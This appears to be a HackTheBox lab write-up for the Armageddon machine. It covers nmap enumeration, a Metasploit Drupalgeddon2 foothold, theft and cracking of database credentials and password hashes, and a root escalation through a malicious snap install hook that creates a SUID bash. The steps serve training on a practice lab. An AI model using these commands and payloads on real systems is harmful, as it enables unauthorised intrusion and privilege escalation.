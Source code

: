 ```yaml
---
title: "HackTheBox - Armageddon"
author: Nasrallah
description: ""
date: 2023-02-05 00:00:00 +0000
categories : [HackTheBox, Machines]
tags: [hackthebox, linux, easy, sudo, rce, cve]
img_path: /assets/img/hackthebox/machines/armageddon
---
```


<div align="center"> <script src="https://www.hackthebox.eu/badge/565048"></script> </div>

---


## **Description**

Hello hackers, I hope you are doing well. We are doing [Armageddon](https://app.hackthebox.com/machines/) from [HackTheBox](https://www.hackthebox.com).

## **Enumeration**

### nmap

We start a nmap scan using the following command: `sudo nmap -sC -sV -T4 {target_IP}`.

- -sC: run all the default scripts.

- -sV: Find the version of services running on the target.

- -T4: Aggressive scan to provide faster results.


```terminal
Nmap scan report for 10.10.10.233
Host is up (0.33s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http    Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
|_http-title: Welcome to  Armageddon |  Armageddon
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-generator: Drupal 7 (http://drupal.org)
```

We have OpenSSH running on port 22 and an Apache web server with Drupal on port 80.

We also see there is a robots.txt with a total of 36 disallowed entries.

### Web

Let's navigate to the web page.

![](1.png)

We have a login page and no credentials.

Let's check the /CHANGELOG.txt

![](2.png)

Here we see the version of Drupal is 7.56, let's search on exploit-db to see if this version is vulnerable.

![](3.png)

This Drupal is vulnerable to remote code execution.


## **Foothold**

Using the metasploit `exploit/unix/webapp/drupal_drupalgeddon2` module, let's exploit the service.

![](4.png)

Great! We got the shell.

## **Privilege Escalation**

Let's check the settings.php file where database credentials are stored.

![](5.png)

We find mysql credentials, let's connect to it.

```terminal
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -e 'show databases;'
<er --password=CQHEy@9M*m23gBVj -e 'show databases;'                         
Database              
information_schema   
drupal             
mysql                      
performance_schema        
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables;'
<er --password=CQHEy@9M*m23gBVj -D drupal -e 'show tables;'                  
Tables_in_drupal   
actions  
authmap      
.
.
.
users
users_roles
variable
watchdog
bash-4.2$ mysql -u drupaluser --password=CQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'
<er --password=CQHEy@9M*m23gBVj -D drupal -e 'select name,pass from users;'  
name    pass

brucetherealadmin       $S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt

```

We got `brucetherealadmin`'s hash, let's crack it.

```bash
──╼ $ john --wordlist=/usr/share/wordlists/rockyou.txt hash    
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 SSE2 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)
1g 0:00:00:02 DONE (2023-01-26 09:28) 0.3891g/s 90.27p/s 90.27c/s 90.27C/s tiffany..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed

```

We got the password, now let's ssh to the machine.

![](6.png)

Now we run sudo -l

```bash
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS",
    env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES",
    env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET XAUTHORITY",
    secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```

We can run snap install as root.

Checking this entry on GTFOBins, we find that we can run the following command to get root.

```bash
COMMAND='cp /bin/bash /home/hacked && chmod +s /home/hacked'
cd $(mktemp -d)
mkdir -p meta/hooks
printf '#!/bin/sh\n%s; false' "$COMMAND" >meta/hooks/install
chmod +x meta/hooks/install
fpm -n xxxx -s dir -t snap -a all meta
```


```bash
sudo snap install xxxx_1.0_all.snap --dangerous --devmode
```

fpm is not installed on the target machine, so we'll execute the first part on our machine then upload the snap file to our target and execute the second part command.

First we install npm with `sudo gem install --no-document fpm`.

Now let's get root.

![](7.png)


![](8.png)


---

Thank you for taking the time to read my write-up, I hope you have learned something from this. If you have any questions or comments, please feel free to reach out to me. See you in the next hack :).
